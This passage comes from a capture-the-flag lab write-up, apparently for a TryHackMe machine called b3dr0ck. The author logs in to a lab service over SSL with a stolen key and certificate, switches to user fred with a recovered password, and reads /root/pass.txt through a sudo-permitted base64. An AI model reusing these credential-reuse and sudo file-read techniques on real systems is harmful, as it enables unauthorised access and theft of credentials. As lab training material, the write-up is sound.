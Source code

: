 I obtain Fred's key and certificate. Similarly to what I did with Barney, I copy the contents of the certificate and the key, create two files on my machine, and log in via SSL.

```console
$ openssl s_client -connect 10.10.103.133:54321 -cert certfred -key rsafred

Welcome: 'fredcsrpem' is authorized.
b3dr0ck> login
Login is disabled. Please use SSH instead.
b3dr0ck> password
Password hint: YabbaDabbaD0000! (user = 'fredcsrpem')
b3dr0ck> 

```
With the username and password, I now log into Fred's account by entering the discovered password.

```yaml
barney@b3dr0ck:/usr/bin$ su - fred
Password: 
fred@b3dr0ck:~$ ls
fred.txt
fred@b3dr0ck:~$ 
```

And I retrieve the next flag.

**Flag 2 : THM{08da34e619da839b154521da7323559d}**

## Root access

From the previous exploitation of the sudoers.d folder, I already know that Fred has access to use base64 and base32. I attempt to run them. 

```yaml
fred@b3dr0ck:~$ sudo /usr/bin/base64 /root/pass.txt
TEZLRUM1MlpLUkNYU1dLWElaVlU0M0tKR05NWFVSSlNMRldWUzUyT1BKQVhVVExOSkpWVTJSQ1dO
QkdYVVJUTEpaS0ZTU1lLCg==
```
It looks like the content is encoded in base64. I use [CyberChef](https://gchq.github.io/CyberChef/) to decode it.


![cyberchef1](/images/cyberchefb3dr0ck.jpg)
